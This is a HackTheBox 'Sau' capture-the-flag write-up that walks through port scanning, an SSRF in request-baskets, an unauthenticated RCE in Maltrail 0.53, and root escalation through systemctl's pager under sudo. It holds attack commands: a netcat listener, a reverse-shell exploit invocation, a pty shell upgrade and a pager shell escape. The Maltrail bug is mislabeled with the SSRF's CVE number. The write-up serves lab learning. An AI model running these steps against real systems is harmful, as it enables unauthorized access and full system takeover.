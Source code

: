 ```yaml
---
layout: post
title: "Sau writeup"
tags: ["Writeups", "HackTheBox", "CTF", "Request-Baskets-1.2.1", "CVE-2023-27163", "SSRF", "Maltrail-0.53", "CVE-2023-27163", "RCE", "Spawn-Shell-Systemctl-Pager"]
author: 0xfederico
meta: "This box starts with a site that hosts request-baskets at version 1.2.1 which is vulnerable to CVE-2023-27163 (SSRF). After exploiting the vulnerability I access hidden resources on other ports and find Maltrain at version 0.53 which is vulnerable to CVE-2023-27163 (RCE). I can exploit this vulnerability and become the user. To become root just look at what you can do with sudo and take advantage of systemctl's default pager"
published: false
---
```


# INDEX
- [Enumeration](#enumeration)
- [Privesc puma](#privesc-puma)

<br><br>

![Sau box HTB](/assets/images/machines/Sau/Sau.png)

## Enumeration

- `nmap -A -p- -T4 10.10.11.224`
    ```
    PORT      STATE    SERVICE VERSION
    22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
    |   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
    |_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
    80/tcp    filtered http
    8338/tcp  filtered unknown
    55555/tcp open     unknown
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     X-Content-Type-Options: nosniff
    |     Date: Sun, 30 Jul 2023 20:04:04 GMT
    |     Content-Length: 75
    |     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
    |   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest: 
    |     HTTP/1.0 302 Found
    |     Content-Type: text/html; charset=utf-8
    |     Location: /web
    |     Date: Sun, 30 Jul 2023 20:03:38 GMT
    |     Content-Length: 27
    |     href="/web">Found</a>.
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Allow: GET, OPTIONS
    |     Date: Sun, 30 Jul 2023 20:03:38 GMT
    |_    Content-Length: 0
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port55555-TCP:V=7.93%I=7%D=7/30%Time=64C6C21A%P=x86_64-pc-linux-gnu%r(G
    SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
    SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2030\x20Jul\x20
    SF:2023\x2020:03:38\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
    SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
    SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
    SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
    SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2030\x20Jul\x20
    SF:2023\x2020:03:38\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
    SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
    SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
    SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
    SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
    SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
    SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
    SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
    SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
    SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
    SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
    SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
    SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
    SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
    SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
    SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
    SF::\x20nosniff\r\nDate:\x20Sun,\x2030\x20Jul\x202023\x2020:04:04\x20GMT\r
    SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
    SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
    SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
    SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
    SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
    SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
    SF:se\r\n\r\n400\x20Bad\x20Request");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```

- by opening the site [http://10.10.11.224:55555/web](http://10.10.11.224:55555/web) I see that it hosts request-baskets at version 1.2.1 which is vulnerable to CVE-2023-27163. The exploit for this SSRF is [https://github.com/entr0pie/CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)

    I use the exploit to access local resources listed by nmap through the proxy offered by `request-baskets`:

    - `./CVE-2023-27163.sh "http://10.10.11.224:55555" "http://127.0.0.1:8338"`

    - `./CVE-2023-27163.sh "http://10.10.11.224:55555" "http://127.0.0.1:80"`

    _NOTE: for the exploit to actually work you need to visit/query the URL that `request-baskets` returns (ex: http://10.10.11.224:55555/sflzwb)_

- by opening the URL from the browser in both cases `Maltrail` version 0.53 is hosted, in the first case it seems not to work due to the broken CSS while in the second case you see the login screen. This specific version is vulnerable to CVE-2023-27163. The exploit for this Unauthenticated RCE is: https://github.com/spookier/Maltrail-v0.53-Exploit

    - I listen with netcat on port 4444: `nc -lnvp 4444`

    - `python3 exploit.py $(ifconfig tun0 | grep inet | head -n 1 | awk '{ print $2 }') 4444 http://10.10.11.224:55555/sflzwb/login`
        
    bingo! I got reverse shell as user

<br><br>

## Privesc puma

- I get a better shell with:
    ```bash
    python -c ‘import pty; pty.spawn(“/bin/bash”)’
    ```

- `sudo -l`
    ```
    Matching Defaults entries for puma on sau:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User puma may run the following commands on sau:
        (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
    ```

    I can become root very simply via: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/#spawn-shell-in-the-pager
    
    another reference: https://gtfobins.github.io/gtfobins/systemctl/

    ```
    !sh
    ```
    
    so if I can run `systemctl status foo` as root I can spawn another shell in it as root!

    _NOTE: It's exactly the same for `vim`: https://gtfobins.github.io/gtfobins/vim/_